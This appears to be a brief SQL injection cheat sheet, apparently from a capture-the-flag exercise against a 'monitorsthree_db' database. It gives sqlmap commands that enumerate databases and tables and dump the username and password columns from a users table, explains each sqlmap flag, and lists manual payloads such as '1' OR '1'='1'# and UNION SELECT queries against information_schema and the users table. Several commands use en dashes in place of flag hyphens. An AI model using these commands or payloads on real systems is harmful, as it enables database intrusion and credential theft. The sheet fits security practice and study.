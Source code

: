 |                         |                                       |
| ----------------------- | ------------------------------------- |
| **to list the dabases** | sqlmap -r request.txt --batch –dbs    |
| **to list the tables**  | sqlmap -r request.txt --batch –tables |
*get request.txt from burpsuite

```
sqlmap -r request.txt --batch –T users –C username,password –D monitorsthree_db –dump –level=3 –risk=3 --threads=10 --skip=dbs,hostname –technique=T 

```

|                                             |                                                                                                                                                                                                                                                                                                            |
| ------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **--batch**                                 | Never ask for user input, use the default behavior                                                                                                                                                                                                                                                         |
| **-T users**                                | DBMS database table(s) to enumerate                                                                                                                                                                                                                                                                        |
| **-C username,password**                    | DBMS database table column(s) to enumerate                                                                                                                                                                                                                                                                 |
| **-D DB**                                   | DBMS database to enumerate                                                                                                                                                                                                                                                                                 |
| **--dump**                                  | Dump DBMS database table entries                                                                                                                                                                                                                                                                           |
| **--level=3**                               | Level of tests to perform (1-5, default 1)                                                                                                                                                                                                                                                                 |
| **--risk=3**                                | Risk of tests to perform (1-3, default 1)                                                                                                                                                                                                                                                                  |
| **--thread=10**                             | This option specifies the number of concurrent threads that sqlmap should use during the attack.(default 1)                                                                                                                                                                                                |
| **–technique=T  Example : --technique=BEU** | SQL injection techniques to use (default "EUSTQB")  <br><br>- E - Error-based <br>    <br>- U - UNION query-based <br>    <br>- S - Stacked queries <br>    <br>- T - Time-based blind <br>    <br>- Q - Inline queries (also known as Boolean-based or UNION-based) <br>    <br>- B - Boolean-based blind |



1' OR '1'='1'#

'UNION SELECT table_name, NULL FROM information_schema.tables #

'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' #

'UNION SELECT user, password FROM users #

SELECT first_name, last_name FROM users WHERE user_id = ‘%’ or 0=0 union select null, version() #’;